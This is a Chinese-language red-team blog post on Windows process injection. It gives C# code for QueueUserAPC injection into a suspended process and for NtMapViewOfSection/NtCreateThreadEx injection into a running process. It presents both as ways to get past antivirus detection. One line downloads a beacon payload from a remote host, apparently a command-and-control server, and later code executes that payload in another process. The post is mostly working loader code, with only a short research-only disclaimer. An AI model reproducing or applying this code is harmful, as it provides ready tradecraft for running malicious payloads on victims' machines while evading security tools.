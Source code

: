 ```yaml
---
title: 进程注入(二)
date: 2023-02-28
categories: [红蓝对抗]
tags: [红蓝对抗, 进程注入]
---
```


## 0X00 前言 

在实际环境中`CreateRemoteThread`会被诸如Windows Defender等各大杀软严格检测拦截。`QueueUserAPC`和`NtMapViewOfSection`是我们可以用来在进程中执行shellcode的另外两种方式。

## 0x01 QueueUserAPC

对于`QueueUserAPC`，这里主要有两种利用方式：

1.生成处于挂起状态的进程，在主线程上对APC进行排队并继续。

2.枚举现有进程的线程，并在其中一个线程上对APC进行排队。(等待该线程进入alert状态或

强制该线程进入alert状态)，而创建进程则是最为直接的方式

如前所述创建一个进程，但传递[`CREATE_SUSPENDED`标志](https://docs.microsoft.com/en-us/windows/win32/procthread/process-creation-flags)。如果进程无法启动，只需抛出一个异常即可。

```c#
var si = new Win32.STARTUPINFO();
si.cb = Marshal.SizeOf(si);

var pa = new Win32.SECURITY_ATTRIBUTES();
pa.nLength = Marshal.SizeOf(pa);

var ta = new Win32.SECURITY_ATTRIBUTES();
ta.nLength = Marshal.SizeOf(ta);

var pi = new Win32.PROCESS_INFORMATION();

var success = Win32.CreateProcessW(
    "C:\\Windows\\System32\\notepad.exe",
    null,
    ref ta,
    ref pa,
    false,
    0x00000004, // CREATE_SUSPENDED
    IntPtr.Zero,
    "C:\\Windows\\System32",
    ref si,
    out pi);

// 如果无法创建，抛出异常
if (!success)
    throw new Win32Exception(Marshal.GetLastWin32Error());
```

获取shellcode并将其写入目标进程。调用`QueueUserAPC API`。为它提供shellcode在内存中的位置和进程主线程的句柄。

```c#
// APC排队
Win32.QueueUserAPC(
    baseAddress, // shellcode位置
    pi.hThread,  // 进程的主线程
    0);
```

恢复进程

```c#
// 恢复进程
Win32.ResumeThread(pi.hThread);
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-28/1.png)

## 0x02 NtMapViewOfSection

`NtMapViewOfSectionAPI`集为`VirtualAllocEx`、`WriteProcessMemory`和`VirtualProtectEx`提供了一个很好的替代方案。但是使用这些较低级别的本地API的最大挑战是它们没有正式文档，因此我们只能在`ntdll.dll`上进行逆向工程来努力找出它们。可以参考网上这份[文档](http://undocumented.ntinternals.net/index.html)。

获取shellcode并在当前流程中创建一个新的section。这个section必须与shellcode一样大。

```c#
var shellcode = await client.GetByteArrayAsync("https://192.168.2.151/beacon.bin");

var hSection = IntPtr.Zero;
var maxSize = (ulong)shellcode.Length;

//在当前进程中创建新section
Native.NtCreateSection(
    ref hSection,
    0x10000000,     // SECTION_ALL_ACCESS
    IntPtr.Zero,
    ref maxSize,
    0x40,           // PAGE_EXECUTE_READWRITE
    0x08000000,     // SEC_COMMIT
    IntPtr.Zero);
```

将该section的view映射到当前进程的内存中。

```c#
// 将该section以RW映射到当前进程的内存中
Native.NtMapViewOfSection(
    hSection,
    (IntPtr)(-1),
    out var localBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out var _,
    2,              // ViewUnmap (创建的view不会被子进程继承)
    0,
    0x04);          // PAGE_READWRITE

// 将shellcode复制到我们自己进程的内存中
Marshal.Copy(shellcode, 0, localBaseAddress, shellcode.Length);
```

获取目标进程的句柄并将同一section映射到其中。这将自动将shellcode从当前进程复制到目标

```c#
// 获取目标进程的reference
var target = Process.GetProcessById(4148);

//将该区域作为RX映射到目标进程中
Native.NtMapViewOfSection(
    hSection,
    target.Handle,
    out var remoteBaseAddress,
    IntPtr.Zero,
    IntPtr.Zero,
    IntPtr.Zero,
    out _,
    2,
    0,
    0x20);      // PAGE_EXECUTE_READ
```

创建一个新的远程线程来执行shellcode

```c#
// 执行目标进程中的shellcode
Native.NtCreateThreadEx(
    out _,
    0x001F0000, // STANDARD_RIGHTS_ALL
    IntPtr.Zero,
    target.Handle,
    remoteBaseAddress,
    IntPtr.Zero,
    false,
    0,
    0,
    0,
    IntPtr.Zero);
```

![](https://raw.githubusercontent.com/ring0rl/blog_pic/main/2023-02-28/2.png)

## 0x03 小结

​	本文继续介绍了进程注入的知识。综合两篇文章，我们可以混合和匹配它们来创建自己的注入样式。例如，我们可以生成处于挂起状态的进程，使用NtMapViewOfSectionAPI映射和复制shellcode，然后QueueUserAPC或NtQueueApcThread执行它。

### 注：本文仅用于安全研究和学习之用